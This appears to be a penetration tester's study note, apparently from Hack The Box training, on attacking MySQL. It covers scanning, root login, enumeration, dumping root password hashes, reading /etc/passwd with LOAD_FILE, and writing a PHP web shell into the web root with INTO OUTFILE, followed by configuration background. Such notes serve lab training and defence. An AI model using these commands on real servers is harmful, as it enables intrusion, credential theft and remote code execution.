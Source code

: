 ##### Scanning and Connecting
```bash
nmap -Pn -n -sV -sC -p3306 --script 'mysql*' $ip

mysql -u root -pPASSWORD -h 10.10.1.100 -P 3306
mysql -u root -pPASSWORD -h 10.10.1.100 -P 3306 --skip-ssl
```

##### Enumeration - Find more [here ](obsidian://open?vault=Penetration%20Testing&file=Web%20Applications%2FSQLi%2F~%20Intro)
```sql
select version();
select system_user();
show databases;
use <database>;
show tables;
show columns from <table>;
select * from <table>;
select * from <table> where <column> = "<string>";

SELECT user, authentication_string FROM mysql.user WHERE user = 'root';

```

##### Write Local Files
Check value of `secure_file_priv` (empty is good, NULL is bad)
```sql
show variables like "secure_file_priv";
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

##### Read Local Files
```sql
select LOAD_FILE("/etc/passwd");
```
`MySQL` is an open-source SQL relational database management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval.

The data is stored in tables with different columns, rows, and data types. These databases are often stored in a single file with the file extension `.sql`, for example, like `wordpress.sql`

### MySQL Clients
The MySQL clients can retrieve and edit the data using structured queries to the database engine. Inserting, deleting, modifying, and retrieving data, is done using the SQL database language. Therefore, MySQL is suitable for managing many different databases to which clients can send multiple queries simultaneously.

One of the best examples of database usage is the CMS WordPress. WordPress stores all created posts, usernames, and passwords in their own database, which is only accessible from the localhost.

### MySQL Databases
MySQL is ideally suited for applications such as `dynamic websites`, where efficient syntax and high response speed are essential. It is often combined with a Linux OS, PHP, and an Apache web server and is also known in this combination as [LAMP](https://en.wikipedia.org/wiki/LAMP_(software_bundle)) (Linux, Apache, MySQL, PHP), or when using Nginx, as [LEMP](https://lemp.io/). In a web hosting with MySQL database, this serves as a central instance in which content required by PHP scripts is stored. Among these are:

| Headers                 | Texts            | Meta tags         | Forms      |
| ----------------------- | ---------------- | ----------------- | ---------- |
| Customers               | Usernames        | Administrators    | Moderators |
| Email addresses         | User information | Permissions       | Passwords  |
| External/Internal links | Links to Files   | Specific contents | Values     |

Sensitive data such as passwords can be stored in their plain-text form by MySQL; however, they are generally encrypted beforehand by the PHP scripts using secure methods such as [One-Way-Encryption](https://en.citizendium.org/wiki/One-way_encryption).

### Default Configuration
```bash
adot8@htb[/htb]$ cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'

[client]
port		= 3306
socket		= /var/run/mysqld/mysqld.sock

[mysqld_safe]
pid-file	= /var/run/mysqld/mysqld.pid
socket		= /var/run/mysqld/mysqld.sock
nice		= 0

[mysqld]
skip-host-cache
skip-name-resolve
user		= mysql
pid-file	= /var/run/mysqld/mysqld.pid
socket		= /var/run/mysqld/mysqld.sock
port		= 3306
basedir		= /usr
datadir		= /var/lib/mysql
tmpdir		= /tmp
lc-messages-dir	= /usr/share/mysql
explicit_defaults_for_timestamp

symbolic-links=0

!includedir /etc/mysql/conf.d/
```

### Dangerous Settings
|**Settings**|**Description**|
|---|---|
|`user`|Sets which user the MySQL service will run as.|
|`password`|Sets the password for the MySQL user.|
|`admin_address`|The IP address on which to listen for TCP/IP connections on the administrative network interface.|
|`debug`|This variable indicates the current debugging settings|
|`sql_warnings`|This variable controls whether single-row INSERT statements produce an information string if warnings occur.|
|`secure_file_priv`|This variable is used to limit the effect of data import and export operations.|
The settings `user`, `password`, and `admin_address` are security-relevant because the entries are made in plain text. Often, the rights for the configuration file of the MySQL server are not assigned correctly. If we get another way to read files or even a shell, we can see the file and the username and password for the MySQL server.

The `debug` and `sql_warnings` settings provide verbose information output in case of errors, which are essential for the administrator but should not be seen by others. This information often contains sensitive content, which could be detected by trial and error to identify further attack possibilities. These error messages are often displayed directly on web applications.


